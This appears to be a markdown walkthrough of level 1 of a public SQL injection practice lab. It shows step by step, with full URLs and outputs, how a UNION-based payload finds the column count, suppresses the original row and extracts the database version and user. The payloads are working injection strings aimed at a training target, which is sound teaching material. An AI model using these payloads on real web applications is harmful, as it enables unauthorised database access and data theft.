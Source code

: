 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

## [Level 1](https://zixem.altervista.org/SQLi/level1.php?id=1)
Start: `https://zixem.altervista.org/SQLi/level1.php?id=1`\
> - **Item ID:** 1
> - **Price:** 20$

=> I guess the Query can be:\
`SELECT * FROM <db> WHERE id=1`
=> We should add `UNION SELECT 1,2;--`\
Result:\
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns**Item ID:**
> - **Price:** $

=> So it doesn't have 2 columns, let's try again with more to see if the error still exist.\
Result:\
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.\
Result:\
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

Ok let's extract *version()* and *user()*:\
Result:\
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

=> Bazinga!
